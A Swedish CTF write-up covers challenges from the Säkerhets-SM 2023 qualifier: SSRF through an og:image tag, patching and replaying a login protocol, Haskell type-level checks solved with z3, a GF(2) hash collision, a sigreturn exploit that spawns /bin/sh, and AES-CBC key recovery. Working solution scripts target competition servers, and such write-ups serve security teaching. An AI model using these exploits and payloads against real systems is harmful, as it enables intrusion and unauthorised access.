






# Säkerhets-SM 2023 kval


## [web] CTF planner

**Skapare:** Movitz Sunar

**Beskrivning:**
```
du vet när ens homies ska ut för att CTF:a, men pga strukturella problem i homie organisationen så lyckas man inte CTF:a i full potential, troligen

sådana problem kan lösas med detta verktyg
för att organisera
```

Vi får en hemsida med några förinlaggda CTF:er med både namn, beskrivning och bild. Vi har också möjligheten att föreslå nya CTFs att lägga till i listan


Kollar man på källkoden av hemsidan kan man se en gömd länk till `/source` som innehåller webserverns källkod, skriven i Go. Vi får inte se exakt hur den hämtar in all data från länkar vi stoppar in men längst ned i filen finns den här funktionen.
```go
func (s *Server) fixRoutes(mux *http.ServeMux) {
	mux.HandleFunc("/", s.index)
	mux.HandleFunc("/flag", s.flag)
	mux.HandleFunc("/suggest", s.addSuggestion)
	mux.HandleFunc("/source", s.source)
}

func (s *Server) flag(w http.ResponseWriter, r *http.Request) {
	if strings.HasPrefix(r.RemoteAddr, "127.0.0.1:") {
		w.Write(s.flagStr)
	} else {
		w.Write([]byte("SSM{________?_}"))
	}
}
```
Det här innebär att för att kunna få flaggan måste vi skicka en request till `/flag` på webservern fast requesten måste komma från `127.0.0.1`, A.K.A localhost, A.K.A webservern själv. Det här är en klassisk setup för SSRF (Server Side Request Forgery). Vårt mål är att få webservern att requesta `/flag` själv och ge det den får tillbaka till oss.

För både idekCTF och Security Fest kan vi se se att den har lyckats hämta både en beskrivning, titel och bild, den informationen måste finnas någonstans på deras hemsida. Vi kan gå till https://securityfest.com/ och inspectera `<head>` taggen, som brukar innehålla sådan metadata om hemsidan.
```html
<head>
    <meta charset="utf-8">
    ...
    <meta property="og:title" content="Security Fest - IT Security Conference">
    <meta property="og:url" content="https://securityfest.com/">
    <meta property="og:type" content="website">
    <meta property="og:image" content="https://securityfest.com/img/securityfest-og-2023.png">
    <meta property="og:description" content="Security Fest is an inspiring and unique IT security conference held in Gothenburg, Sweden. The event is an excellent opportunity to learn more about IT security, and a great way to connect with both the renowned international speakers, and the other attendees.">
    <title>Security Fest - IT Security Conference May 25-26 2023, Gothenburg, Sweden</title>
</head>
```
En rimlig gissning är alltså att CTF-planner går till URL:en vi ger den och kollar på vilken metadata som är definerad för den. I vårt fall vill vi få den att göra en request och ge resultatet till oss, vilket `og:image` propertyn verkar perfekt för. Nu kan vi skapa vår egna hemsida som ser ut så här
```html
<head>
    <meta property="og:image" content="http://127.0.0.1:8080/flag">
</head>
```
När vi nu lägger till den i CTF-planner kommer den att se att det finns en bild att hämta för hemsidan, hämta den och sedan försöka visa den för oss. Det kommer antagligen inte gå så bra att visa vår flagg-text som en bild men det borde inte spela någon roll. Notera att jag använder port 8080 eftersom det är det webserver körs på lokalt, något som kan ses i källkoden.

Om du inte har en egen webserver kan du använda ett verktyg som https://ngrok.com/ för att tillfälligt port-forwarda en webserver till det öppna nätet.

Skickar vi nu in vår url och inspekterar den trasiga bilden ser vi att den har hämtat någonting i alla fall



Den bas64-datan kan vi sen decoda och få vår flagga.

`SSM{du_bör_organisera_dina_homies_annars_homiar_organisationen_dig}`

## [rev] LETMEIN!!!

**Skapare:** nnewram

**Beskrivning:** `LET ME IIIIIIIIIIIIIINNNNNNNNNNNNNNNNNNNNNNNN`

(Det är inte så farlig reversing i den här challen men jag använde ändå en mer dynamisk metod, för varför inte?) Vi får en binär och en serveraddress att jobba med. Vi testar att köra den.

```
$ ./letmein
Welcome to THE GATE.
In order to get the ~flag~, we first need to validate your identity.
server ip: 35.217.39.252
username: asdf
password: qwerty
Sorry, you don't have flag access.
$ 
```

Okej, vi kan anta att den på något sätt kommunicerar med servern vi gav den, men hur? Kan väl inte vara så farligt att kolla, bara att öppna den i Binary Ninja och...


Vad sägs om dynamisk analys istället? Om vi kör programmet med `strace` borde vi kunna se all data den skickar och tar emot från servern. (simplifierad output)
```
$ strace ./letmein
execve("./letmein", ["./letmein"], 0x7ffcc1d5d610 /* 25 vars */) = 0
...
write(1, "Welcome to THE GATE.\n", 21Welcome to THE GATE.
)  = 21
write(1, "In order to get the ~flag~, we f"..., 69In order to get the ~flag~, we first need to validate your identity.
) = 69
write(1, "server ip: ", 11server ip: )             = 11
read(0, 35.217.39.252
"35.217.39.252\n", 1024)        = 14
write(1, "username: ", 10username: )              = 10
read(0, asdf
"asdf\n", 1024)                 = 5
write(1, "password: ", 10password: )              = 10
read(0, qwerty
"qwerty\n", 1024)               = 7
socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3                           = 0
connect(3, {sa_family=AF_INET, sin_port=htons(1337), sin_addr=inet_addr("35.217.39.252")}, 16) = 0
sendto(3, "asdf:qwerty\n", 12, 0, NULL, 0) = 12
recvfrom(3, "UNAUTHENTICATED", 256, 0, NULL, NULL) = 15
close(3)                                = 0
write(1, "Sorry, you don't have flag acces"..., 35Sorry, you don't have flag access.
) = 35
lseek(0, -1, SEEK_CUR)                  = -1 ESPIPE (Illegal seek)
exit_group(0)                           = ?
+++ exited with 0 +++
$
```
Det verkar alltså som att när vi anger vårt `username` som `asdf` och `password` som `qwerty` skickar den `asdf:qwerty\n` till server ip:en vi angav. Tillbaka får den `UNAUTHENTICATED` och visar sedan felmeddelandet. Det intressenta är ju vad den skulle göra om den inte var `UNAUTHENTICATED`, skulle den visa flaggan då?

Vi kan få den att lista ut det åt oss. Om vi öppnar programmet och letar runt lite kan vi se att `has_flag_access()` kollar om responsen från servern är `AUTHENTICATED` eller inte. Är det inte det visar den samma felmeddelande som vi är vana vid, annars anropar den `get_flag()`.



Om vi nu patchar programmet så att den försöker hämta flaggan istället för att faila borde vi med ännu en runda `strace` kunna lista ut hur det funkar. Tack vare Binary Ninja är det också extremt lätt att patcha, vi bara inverterar if-satsen så att den istället försöker hämta flaggan om den inte får `AUTHENTICATED`.



Låt oss försöka igen.
```
$ strace ./letmein_patched 
execve("./letmein_patched", ["./letmein_patched"], 0x7ffcff5220d0 /* 25 vars */) = 0
...
write(1, "Welcome to THE GATE.\n", 21Welcome to THE GATE.
)  = 21
write(1, "In order to get the ~flag~, we f"..., 69In order to get the ~flag~, we first need to validate your identity.
) = 69
write(1, "server ip: ", 11server ip: )             = 11
newfstatat(0, "", {st_mode=S_IFCHR|0620, st_rdev=makedev(0x88, 0x2), ...}, AT_EMPTY_PATH) = 0
read(0, 35.217.39.252
"35.217.39.252\n", 1024)        = 14
write(1, "username: ", 10username: )              = 10
read(0, asdf
"asdf\n", 1024)                 = 5
write(1, "password: ", 10password: )              = 10
read(0, qwerty
"qwerty\n", 1024)               = 7
socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(1337), sin_addr=inet_addr("35.217.39.252")}, 16) = 0
sendto(3, "asdf:qwerty\n", 12, 0, NULL, 0) = 12
recvfrom(3, "UNAUTHENTICATED", 256, 0, NULL, NULL) = 15
close(3)                                = 0
socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(1337), sin_addr=inet_addr("35.217.39.252")}, 16) = 0
sendto(3, "UNAUTHENTICATED:asdf\n", 21, 0, NULL, 0) = 21
recvfrom(3, "UNAUTHENTICATED", 256, 0, NULL, NULL) = 15
close(3)                                = 0
write(1, "Welcome back, asdf here is your "..., 54Welcome back, asdf here is your flag: UNAUTHENTICATED
) = 54
lseek(0, -1, SEEK_CUR)                  = -1 ESPIPE (Illegal seek)
exit_group(0)                           = ?
+++ exited with 0 +++
$
```

Nu skickar den alltså `UNAUTHENTICATED:asdf\n` till servern efteråt och verkar behandla det den får tillbaka (i det här fallet `UNAUTHENTICATED` igen) som om det vore vår flagga, genom att printa
`Welcome back, asdf here is your flag: UNAUTHENTICATED`.

Så om vi låtsas att vi faktiskt hade rätt authentication och körde ett omodiferat program, då är det rimligt att gissa att den istället skulle skicka `AUTHENTICATED:asdf\n` till servern, eftersom den skulle fått tillbaka `AUTHENTICATED` från den första requesten. Vi kan testa att manuellt skicka det via netcat, och det visar sig att det funkar!
```
$ nc 35.217.39.252 1337
AUTHENTICATED:asdf
"asdf" NOT IN ["ADMIN","GUEST"]
$ 
```

Okej, antar att vi vill vara ADMIN.

```
$ nc 35.217.39.252 1337
AUTHENTICATED:ADMIN
SSM{th3y_f1n411y_137_m3_1n}
$ 
```

Och där har vi det! Men man undrar ju varför GUEST finns...

```
$ nc 35.217.39.252 1337
AUTHENTICATED:GUEST
Why did you even check this? Anyway, here is a treat: https://www.youtube.com/watch?v=pROomL6IiOw
$
```

Tack nnewram, very cool.


## [rev] Typ Haskell?

**Skapare:** Oskar Tornevall

**Beskrivning:** `Värden? Vem behöver ens värden...`

Kommer inte gå in i detalj, mest för att jag inte förstår alla detaljer. https://wiki.haskell.org/Type_arithmetic var en bra artikel som hjälpte mig att förstå det mesta. Den stora klumpen i mitten utgör krav som varje bokstav i ordning måste uppnå. Eftersom det är 21 sådana checker har flaggan 21 bokstäver. En sådan check ser ut så här:

```haskell
instance (PAdd e (S Z) d, PEq b f a, PMul (S (S (S Z))) x c, PMul (S (S (S (S (S Z))))) (S (S Z)) h, PMul g (S (S (S (S (S (S (S Z))))))) f, PAdd h (S Z) g, PAdd c d b, PMul (S (S (S (S Z)))) (S (S (S (S Z)))) e) => Apply C0 x a
```

Varje funktion (?) får in en bokstav `x` som input och spottar ut `a` som är antingen sann eller falsk. Nummer skrivs inte som friska personer skulle skriva dem utan istället som "peano numbers", d.v.s Z (0) med S (successor-funktionen) applicerad ett visst antal gånger. Numret 2 är alltså `(S (S Z))`. Förutom det består checken av en mängd funktionsanrop där de två första argumenten är "input" och det tredje är "output".

Funktionerna gör tack och lov det deras namn antyder, så `PAdd` adderar två tal, `PMul` multiplicerar och `PEq` kollar ekvivalens.

Outputen `a` i det övre blocket är "outputen" av en ekvivalensjämförelse, som i sin tur består av bokstäver som är definerade i andra funktioner. Jobbar man baklänges därifrån kan man bilda en ekvation man kan lösa för `x` i. I det här första exemplet motsvarar det ekvationen `3*x + 17 == 77`, vilket har lösningen `x=20`. I det speciella alfabetet vi är givna motsvarar det bokstaven `t`, vilket då är den första bokstaven i flaggan (`SSM{` är exkluderat).

Vi kan nu med lite regex och z3 plocka ut och lösa de här ekvationerna automatiskt, så här såg mitt lösningsskript ut.
```py
import re
import string
from z3 import *

src = ''.join(open('challenge.hs', 'r').readlines()[79:100])
src = src.replace('Z', '0')
for _ in range(10):
    def repl(m):
        return str(int(m.groups()[0]) + 1)
    src = re.sub(r"\(S (\d+)\)", repl, src)

from operator import add, mul, eq
funcs = {
    'PAdd': add,
    'PMul': mul,
    'PEq': eq
}

alpha = "_" + string.ascii_lowercase + string.digits
s = Solver()
chars = [Int(f'x{i}') for i in range(21)]

for i, line in enumerate(src.splitlines()):
    stmts = re.findall(r'(PAdd|PEq|PMul) (.) (.) (.)', line)
    def eval_var(n: str):
        if n == 'x': return chars[i]
        f, a, b, _ = next(s for s in stmts if s[-1] == n)
        a = int(a) if a.isdigit() else eval_var(a)
        b = int(b) if b.isdigit() else eval_var(b)
        return funcs[f](a, b)
    s.add(eval_var('a'))
assert s.check() == sat
m = s.model()
flag = ''.join(alpha[m[ch].as_long()] for ch in chars)
print('SSM{'+flag+'}')
```

## [crypto] Securest Hashing Algorithm

**Skapare:** Oskar Tornevall

**Beskrivning:** `XOR is cryptographically secure and nonlinear.... I think?`

Det här problemet är enligt mig ett fantastiskt exempel på praktiska applikationer av ganska abstrakt matematik. Problemet är att allt jag kan om det är snuttar jag plockat upp från här och där, jag har ingen formell utbildning i det än. Därför finns det stor risk för inkorrekt terminologi även här så läs på egen risk elle nåt idk.

Här är koden för servern vi kan ansluta till
```py
#!/usr/bin/env python3
from secrets import FLAG, ADMIN_PASSWORD
import hashlib

CHUNK_SIZE = 16

def xor(a, b):
    return bytes([x ^ y for x, y in zip(a, b)])

def sha256(data):
    h = hashlib.sha256()
    h.update(data)
    return h.digest()

def hash_block(blk):
    h1 = sha256(bytes(blk, "ascii"))
    h2 = sha256(h1)
    return h2

def split_blocks(inp):
    return (inp[i:i+CHUNK_SIZE] for i in range(0, len(inp), CHUNK_SIZE))

def securest_hash(inp):
    blks = split_blocks(inp)
    hashes = [hash_block(blk) for blk in blks]
    result = hashes[0]
    for h in hashes[1:]:
        result = xor(result, h)
    return result

ADMIN_HASH = securest_hash(ADMIN_PASSWORD)

#TODO: Remove debug output?
print(ADMIN_HASH.hex())

while True:
    data = input("Enter password: ")
    hsh = securest_hash(data)
    if hsh == ADMIN_HASH:
        print("Correct! The flag is: " + FLAG)
        break
    else:
        print("Incorrect!")
```

Tl;dr är att vi har en hashningsfunktion och vi vill kunna få den att hasha vår input till en viss admin-hash, och i så fall får vi flaggan. Hashningsfunktionen delar upp vår input i chunks av 16-bytes och kör varje chunk genom sha256 två gånger, och efter det xor:ar den ihop resultatet av alla chunks och returnerar den 256-bit långa hashen.

**Insikt nr. 1**: XOR är bara addition mod 2. Här är truth-tablet för XOR operation av två bitar.
```
0 ^ 0 = 0
1 ^ 0 = 1
0 ^ 1 = 1
1 ^ 1 = 0
```

Observera att i alla fall förutom det sista kan `^` bytas ut mot `+` och det stämmer fortfarande. I det sista fallet skulle 1 + 1 = 2, men det går inte när vi behandlar bitar såklart. Därför låtsas vi att vi lever i en värld där bara 1:or och 0:or finns. Den här abstrakta världen har ett namn: GF(2), vilket står för galois fält 2. Det är ett väldigt fancy namn för ett väldigt simpelt (ish) koncept, och allt man behöver veta om det är att om man arbetar i GF(2) är allting antingen 0 eller 1, och 1 + 1 wrappar runt till 0.

Anledningen till att det är en viktig koppling att göra är att matematiker redan har arbetat mycket med galois fält och kommit på massa coola tekniker vi kan använda på det.

**Insikt nr. 2**: Med N antal *linjärt oberoende* vektorer kan man nå var som helst i en N dimensionell rymd. Linjärt oberoende betyder i princip att två vektorer inte ligger på samma linje. 

Har du två vektorer i ett 2D plan, en som pekar åt höger och en uppåt t.ex, kan du genom att multiplicera vardera med en skalär och sedan addera de nå vilken punkt som helst i koordinatplanet. Även om vinkeln mellan de är 0.001 grader kommer de fortfarande kunna nå allt, så länge de inte ligger på samma linje. Multiplicerar man de då kommer de alltid att fortsätta ligga på samma linje; de är låsta.

Vi behöver alltså 2 *linjärt oberoende* vektorer för att nå alla punkter i 2D-planet. Det visar sig att det här kan generaliseras till N dimensioner, så har du tre linjärt oberoende 3D vektorer kan du nå vilken annan 3D punkt som helst.


Vi kan nu se att hashen av ett block egentligen är en 256-dimensionell vektor i GF(2), och om vi lyckas skaffa 256 linjärt oberoende sådana så kommer vi kunna nå vilken annan punkt som helst i denna 256-dimensionella rymd, t.ex admin hashen. Detta eftersom att XOR:a de är samma sak som att addera de i GF(2). Mer specifikt har vi en ekvation som ser ut som så här:

```math
x_{0}\begin{bmatrix}0\\1\\\vdots\\1\end{bmatrix}+x_{1}\begin{bmatrix}1\\1\\\vdots\\0\end{bmatrix}+\ldots+x_{255}\begin{bmatrix}1\\0\\\vdots\\1\end{bmatrix}=n
```

Där varje x är 1 eller 0 vilket säger om vi ska inkludera hashen från block nr. $n$ eller inte. Vi kan stoppa in det här som kolumner i en matris och lösa det med hjälp av https://pypi.org/project/galois/, vilket förlänger numpy's matrisfunktioner till galois fält.

Att hitta 256 linjärt oberoende vektorer kan vi göra genom att bara slumpa fram och checka, det är väldigt osannolikt att två slumpmässiga 256-dimensionella vektorer ligger på samma linje, men om det händer kör vi bara slumpningen igen. Ranken av en matris (vilket är det som checkes i koden) är samma sak som antalet linjärt oberoende kolumner den består av.

```python
import random
import string
import hashlib
from pwn import *
import numpy as np
from galois import GF2

# Jättebra förklaring av varför och hur det här funkar
# https://www.youtube.com/watch?v=EOlddNofKxo

def sha256(data):
    return hashlib.sha256(data).digest()

while True:
    block_strs = []
    hash_bits = []
    for _ in range(256):
        block_str = ''.join(random.choice(string.ascii_letters) for _ in range(16))
        block_strs.append(block_str)

        block_hash = sha256(sha256(block_str.encode()))
        hash_bits.append( bits(block_hash) )
    M = GF2(hash_bits).T

    # Vi behöver 256 linjärt oberoende vektorer
    if np.linalg.matrix_rank(M) == 256:
        break

p = remote('35.217.62.110', 50000)
TARGET_HASH = bytes.fromhex(p.recvline().decode())

pl = ''
for i, should_include in enumerate(np.linalg.solve(M, GF2(bits(TARGET_HASH)))):
    if not should_include: continue
    pl += block_strs[i]
p.sendlineafter(b'Enter password: ', pl.encode())
print(p.recvall().decode())
```

## [pwn] Signal

**Skapare**: nnewram

**Beskrivning**: `I keep catching the wrong signals, how does this stuff work anyway?`

Vi har en server att ansluta till och binären som servern kör. Binären är extremt minimal och tar endast upp 720 bytes. Här är all programkod den kör:



Datan vid `0x400080` är strängen `/bin/sh` vilket säkert kommer vara användbar senare.

Redan vid den första instruktionen av hela programmet händer det något skumt. Vi subtraherar 0xf002 från 16-bitars nummret som utgör början av *instruktionen* som ligger vid 0x400094, d.v.s `mov esp, 0xef` som vi ser längre ned. Den kommer alltså att ändras till något annat innan vi ens kommer dit.
```py
>>> from pwn import *
>>> disasm(p16((u16(b'\xbc\xef')-0xf002)&0xffff)+b'\0\0\0')
'   0:   ba ff 00 00 00          mov    edx, 0xff'
```

De faktiska instruktionerna vi kör ser alltså ut som
```asm
mov rsi, rsp
mov edx, 0xff
syscall
```
Vilket syscall som körs indikeras av rax, vilket initialiseras till 0. Det motsvara `read`, vilket beror på följande register:

| rax | rdi | rsi | rdx |
|-|-|-|-|
| 0   | unsigned int fd  | char *buf | size_t count |

rdi är oinitialiserad och alltså 0 vilket motsvara file descriptorn för `stdin`. rsi är satt till stackpekaren så vi kommer att skriva till stacken, och edx (lägre halvan av rdx) är satt till 0xff så vi kommer att läsa 255 bytes.

Efter syscallen hoppar vi tillbaka till början och vi subtraherar återigen 0xf002 från den tredje instruktionen. Nu på den andra vändan ser det ut så här:
```
mov rsi, rsp
mov eax, 0xf
syscall
```

Nu blir det mer intressant: 0xf (15) är syscallet `sys_rt_sigreturn` vilket basically laddar en save-fil fast för processorn. Register, flaggor, instruktionspekaren, allt laddas från stacken, precis där vi har placerat vår tidigarenämnda 255-bytes-långa payload. Vi har full kontroll över vad CPU:n ska göra härnäst, förutsatt att vi kan skapa en korrekt save-fil.

Man skulle kunna läsa igenom linux kernelns source code eller på annat sätt själv bygga upp structen som behövs, eller så använder man `pwn.SigreturnFrame()`. Jag valde det senare alternativet. Eftersom binären är så snäll har den redan gett oss strängen `/bin/sh`, så vi behöver bara anropa `execve` med det så får vi shell. Det här är min exploit.

```python
import time
from pwn import *

context.arch = 'amd64'

frame = SigreturnFrame()
frame.rip = 0x400099 # syscall
frame.rax = 59 # sys_execve
frame.rdi = 0x0400080 # /bin/sh
frame.rsi = 0 
frame.rdx = 0

p = remote('35.217.22.30', 50000)
p.send(bytes(frame)[:255])
time.sleep(0.1)
p.sendline(b'cat flag.txt;exit')
print(p.recvall().decode().strip())
```

## [crypto] CyBerCrimes

**Skapare**: Jonathan Lööv

**Beskrivning**: ```Jag har hört att AES i CBC-läge ska vara oknäckbart. Lycka till att komma åt min hemliga data! För att du verkligen ska förstå hur långt ifrån min data du är får du till och med veta det varje försök du gör >:)```

Har ingen riktig writeup men här är ett kommenterat lösningsskript, allt man behöver veta finns i det här diagrammet



```python
from pwn import *
from Crypto.Cipher import AES

p = remote('35.217.56.57', 50000)

def submit(data):
    p.sendlineafter(b'decrypted:\n', data.hex().encode())
    p.recvuntil(b'data is ')
    dec = bytes.fromhex(p.recvline().decode())
    p.recvuntil(b'data is ')
    return (
        dec,
        float(p.recvuntil(b'%', drop=True))
    )

def pad(data, blocks):
    return data + b'\0'*(blocks*16-len(data))
'''
f(x) är AES dekrypteringen
Vi skickar in block c1, c2 och får ut p1, p2 av dekrypteringen
Då gäller att:
p1 = f(c1)^IV
p2 = f(c2)^c1

Vi skickar in c1=c2=c
p1 = f(c)^IV
p2 = f(c)^c
Vi kan då nå IV genom
IV = KEY = p1^p2^c
Så vi har nyckeln
'''
d, _ = submit(b'a'*32)
KEY = xor(xor(d[16:16+16], b'a'*16), d[:16])

flag_bits = []
num_blocks = 16

while True:
    cipher = AES.new(KEY, AES.MODE_CBC, iv=KEY)
    _, sim0 = submit(cipher.encrypt(pad(unbits(flag_bits+[0]), num_blocks)))
    # Reset cipher
    cipher = AES.new(KEY, AES.MODE_CBC, iv=KEY)
    _, sim1 = submit(cipher.encrypt(pad(unbits(flag_bits+[1]), num_blocks)))

    flag_bits.append(1 if sim1 > sim0 else 0)
    print(unbits(flag_bits).decode(errors='ignore'))
p.interactive()
```